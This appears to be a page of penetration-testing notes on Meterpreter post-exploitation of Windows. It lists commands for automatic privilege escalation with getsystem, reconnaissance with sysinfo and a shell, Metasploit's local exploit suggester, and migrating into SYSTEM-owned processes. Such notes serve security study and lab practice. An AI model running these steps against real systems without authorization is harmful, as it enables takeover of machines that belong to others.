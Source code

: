 * Try automatic privilege escalation 😎. Look [at this article](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/) if it fails, and you want to give another try.

```bash
meterpreter > getsystem
```

Learn more about the system. It could be useful to find exploit, for instance by looking for CVE given the Windows build. The architecture can help too, because some scripts work better on some architectures.

```bash
meterpreter > sysinfo
# Computer        : XXX-PC
# OS              : Windows X (... Build xxx...).
# Architecture    : x64
```
</div><div>

You can also start a shell, and directly asks Windows

```bash
meterpreter > shell # start a shell
# you can run commands
# C:\WINDOWS\system32> whoami
# C:\WINDOWS\system32> systeminfo
```

You can ask for suggested exploits <small>(this doesn't work well on x64)</small>

```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

If you found once, use `background` to go back to the console, and try an additional exploit.

<details class="details-e"><summary>Note: Windows defender</summary></details>

<details class="details-e"><summary>Note: "Command shell session 1 opened" and nothing</summary></details>

<details class="details-e"><summary>Note: SSL</summary></details>

</div></div>

<hr class="sl">

## Not-admin yet

<div class="row row-cols-md-2"><div>

To access a service, we need to be "in" a process that has the same architecture, and the same permissions, that our target. Usually, look for process run by "NT AUTHORITY\SYSTEM" (root).

```bash
meterpreter > ps # list process
meterpreter > migrate process_pid # move to another process
meterpreter > migrate -N process_name # same
```
